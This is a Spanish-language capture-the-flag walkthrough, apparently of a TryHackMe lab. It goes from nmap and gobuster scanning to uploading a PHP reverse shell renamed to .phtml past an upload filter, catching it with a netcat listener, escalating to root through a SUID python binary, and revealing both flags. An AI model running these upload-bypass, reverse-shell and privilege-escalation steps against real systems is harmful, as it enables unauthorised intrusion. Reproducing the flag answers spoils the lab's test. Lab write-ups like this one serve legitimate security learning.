 # 1. Reconocimiento

Primero, obtengamos información sobre el objetivo.

## a) Escanee la máquina, ¿cuántos puertos están abiertos?

Comenzamos haciendo un escaneo básico con Nmap, para descubrir los puertos abiertos y sus servicios. Usamos:

```
nmap -sV -T5 10.10.87.98
```

Vemos, dos puertos abiertos, el 22 y el 80

![](IMG/Pasted%20image%2020250412204211.png)

**Respuesta: 2**

## b) ¿Qué versión de Apache está ejecutándose?

Cómo vimos en la captura de la pregunta anterior, la version de Apache es la 2.4.29

**Respuesta: 2.4.29**

## c) ¿Qué servicio se está ejecutando en el puerto 22?

El servicio ejecutándose en el puerto 22 es SSH.

**Respuesta: SSH**

## d) Encuentre directorios en el servidor web utilizando la herramienta GoBuster.

Usaremos GoBuster, de esta forma:

```
gobuster dir -u http://10.10.87.98 -w /usr/share/dirb/wordlists/common.txt
```

Este es el resultado obtenido.

![](IMG/Pasted%20image%2020250412205004.png)

## e) ¿Cuál es el directorio oculto?

El directorio oculto es /panel/, si accedemos a él, obtenemos un formulario que nos permite subir archivos.

![](IMG/Pasted%20image%2020250412205351.png)

**Respuesta: /panel/**

# 2. Conseguir una shell

Busque una forma para cargar y obtener un shell inverso, y busque la bandera.

## a) user.txt

Trataremos de usar el formulario que hemos encontrado en /panel/ para tratar de cargar un archivo php que nos consiga una shell reversa. Usaremos la shell reversa de [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell)

![](IMG/Pasted%20image%2020250412210916.png)

Una vez descargado el archivo php, lo configuraremos con la ip de nuestra máquina y el puerto por el que escucharemos.

![](IMG/Pasted%20image%2020250412211040.png)

Cuando lo hayamos configurado, lo haremos ejecutable usando:

```
sudo chmod +x php-reverse-shell.php
```

lo subiremos con el formulario, y nos dará error. Se debe a la extensión del archivo, ya que no está permitida la subida de archivos php.

![](IMG/Pasted%20image%2020250412211121.png)

Así que trataremos de hacer bypass cambiándole la extensión al archivo. Usaremos:

```
mv php-reverse-shell.php php-reverse-shell.phtml
```

![](IMG/Pasted%20image%2020250412211830.png)

Y tratamos de subirlo de nuevo.

![](IMG/Pasted%20image%2020250412211908.png)

Y ahora sí, ya nos ha permitido subirlo. Lo siguiente que haremos será activar un listener con netcat, usamos:

```
nc -lvnp 1234
```

![](IMG/Pasted%20image%2020250412212608.png)

Y ahora, ejecutamos la shell reversa que acabamos de subir, que se encuentra en el directorio /uploads

![](IMG/Pasted%20image%2020250412212644.png)

```
http://10.10.87.98/uploads/php-reverse-shell.phtml
```

Y, una vez ejecutada, obtenemos nuestra shell.

![](IMG/Pasted%20image%2020250412212818.png)

Ahora, lo que haremos será conseguir que nuestra shell, sea una consola estable, para ello haremos (esto lo hemos encontrado por internet, porque no se muy bien como lo hace):

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](IMG/Pasted%20image%2020250412214354.png)

Y buscaremos el archivo user.txt, usando:

```
find / -type f -name user.txt 2> /dev/null
```

![](IMG/Pasted%20image%2020250412214446.png)

Y sabiendo la ruta, lo abrimos para ver la flag.

![](IMG/Pasted%20image%2020250412214530.png)

**Respuesta: THM{y0u_g0t_a_sh3ll}**

# 3. Escalada de privilegios

Ahora que tenemos una shell, escalemos nuestros privilegios a root.

## a) Buscar archivos con permiso SUID, ¿qué archivo es extraño?

Buscamos los archivos usando lo siguiente (esta parte es encontrada en internet y no me he enterado de porque funciona, pero se supone que es así):

```
find / -perm -u=s type f 2> /dev/null
```

Esto nos da un listado de los archivos que tienen permiso SUID activo.

del listado que nos da, el que se supone que es, es el /usr/bin/python

**Respuesta: /usr/bin/python**

## b) Encuentre una forma para aumentar sus privilegios.

Y sabiendo eso, se supone que ejecutamos:

```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![](IMG/Pasted%20image%2020250412215446.png)

Y ya tendríamos acceso root.

## c) root.txt

Ya solo tenemos que entrar en el directorio root y abrir el archivo root.txt para ver la flag.

![](IMG/Pasted%20image%2020250412215605.png)

**Respuesta: THM{pr1v1l3g3_3sc4l4t10n}**